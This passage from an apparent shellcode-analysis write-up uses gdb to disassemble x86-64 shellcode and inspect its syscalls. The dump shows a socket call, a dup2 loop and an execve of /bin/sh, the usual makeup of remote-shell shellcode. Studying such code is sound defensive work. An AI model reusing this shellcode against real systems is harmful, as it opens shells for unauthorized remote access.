 ```shell
   0x0000000000601087 <+39>:	dec    rsi
   0x000000000060108a <+42>:	push   0x21
   0x000000000060108c <+44>:	pop    rax
   0x000000000060108d <+45>:	syscall 
   0x000000000060108f <+47>:	jne    0x601087 <code+39>
   0x0000000000601091 <+49>:	push   0x3b
   0x0000000000601093 <+51>:	pop    rax
   0x0000000000601094 <+52>:	cdq    
   0x0000000000601095 <+53>:	movabs rbx,0x68732f6e69622f
   0x000000000060109f <+63>:	push   rbx
   0x00000000006010a0 <+64>:	mov    rdi,rsp
   0x00000000006010a3 <+67>:	push   rdx
   0x00000000006010a4 <+68>:	push   rdi
   0x00000000006010a5 <+69>:	mov    rsi,rsp
   0x00000000006010a8 <+72>:	syscall 
   0x00000000006010aa <+74>:	add    BYTE PTR [rax],al
---Type <return> to continue, or q <return> to quit---
End of assembler dump.
```

We can see from the instructions that 4 syscalls are going to be executed and in order to identify their numbers and arguments we put breakpoints before each execution (`0x000000000060106a`, `0x0000000000601082`, `0x000000000060108d` and `0x00000000006010a8`). Then, we continue the execution of the program and check the contents of the registers.

```shell
(gdb) break *0x000000000060106a
Breakpoint 2 at 0x60106a
(gdb) break *0x0000000000601082
Breakpoint 3 at 0x601082
(gdb) break *0x000000000060108d
Breakpoint 4 at 0x60108d
(gdb) break *0x00000000006010a8
Breakpoint 5 at 0x6010a8
```

**1<sup>st</sup> syscall**

```shell
(gdb) c
Continuing.

Breakpoint 2, 0x000000000060106a in code ()
(gdb) info registers
rax            0x29	41
rbx            0x0	0
rcx            0x7fffffeb	2147483627
rdx            0x0	0
rsi            0x1	1
rdi            0x2	2
rbp            0x7fffffffdc40	0x7fffffffdc40
rsp            0x7fffffffdc28	0x7fffffffdc28
r8             0x0	0
r9             0x15	21
r10            0x0	0
r11            0x246	582
r12            0x400470	4195440
r13            0x7fffffffdd20	140737488346400
r14            0x0	0
r15            0x0	0
rip            0x60106a	0x60106a <code+10>
eflags         0x206	[ PF IF ]
cs             0x33	51
ss             0x2b	43
ds             0x0	0
```